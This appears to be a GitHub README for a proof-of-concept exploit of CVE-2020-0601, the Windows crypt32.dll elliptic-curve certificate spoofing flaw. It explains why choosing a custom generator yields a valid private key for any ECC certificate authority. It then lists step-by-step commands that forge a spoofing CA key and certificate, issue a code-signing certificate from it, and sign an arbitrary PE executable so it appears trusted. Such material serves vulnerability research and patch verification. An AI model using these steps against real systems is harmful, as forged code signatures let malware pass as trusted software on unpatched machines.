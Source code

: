 ### CVE-2020-0601 - PoC
Just a quick and small PoC CVE-2020-0601 for code signing PE files using a Certificate Authority using ECC.
I've chosen not to include any CA file. You can create one yourself with the following command:

    $ openssl ecparam -name secp384r1 -genkey > ca.key
    $ openssl req -new -x509 -key ca.key -out ca.crt
    
Also note that not all CA's allow code signing. They have different purposes.

The bug exploits `crypt32.dll` signature verification on elliptic curve. `crypt32.dll` only checks for matching public key and parameters, but not the generator `G`.
The private key is `d = [1, n - 1]`, where `n` is order of the curve
The public key is `Q` = `dG`.
The generator `G` is defined for each curve, but the bug allows your to specify your own generator. 

We know the public key of an CA and the curve it uses. Thus, we can simply set `d' = 1` and `G' = Q`. 

Since `Q = d'G'`, we know have a valid private key, as long as we choose our own generator. A better explanation can be found [here](https://news.ycombinator.com/item?id=22048619).

The PoC assumes you have the certificate of the CA you wish to spoof. In the following example, the certificate uses NIST P-384 (secp384r1) curve, but this works for different curves as well.

    # forge a spoofing key, where d = 1, G = Q
    $ ruby main.rb > fake.key 
    # generate a spoofing certificate with the spoofing key
    $ openssl req -new -x509 -key fake.key -out fake.crt 
    # generate a key for your own certificate:
    $ openssl ecparam -name secp384r1 -genkey > cert.key 
    # request a certificate signing request for code signing:
    $ openssl req -new -key cert.key -out cert.csr -config openssl.conf 
    # sign the certificate request with our fake certificate and fake key
    $ openssl x509 -req -days 365 -in cert.csr -CA fake.crt -CAkey fake.key -out cert.crt -CAcreateserial
    # pack the certificate with its key and the fake certificate into a pkcs12 file
    $ openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile fake.crt -out cert.p12
    # use osslsigncode (NIX) or signtool (Windows) to sign your desired PE exectuable
    $ osslsigncode sign -pkcs12 ./cert.p12 -t http://timestamp.verisign.com/scripts/timstamp.dll -in 7z1900-x64.exe -out 7z1900-x64_signed.exe
![Signed 7z](https://i.imgur.com/lQ9imcy.png)
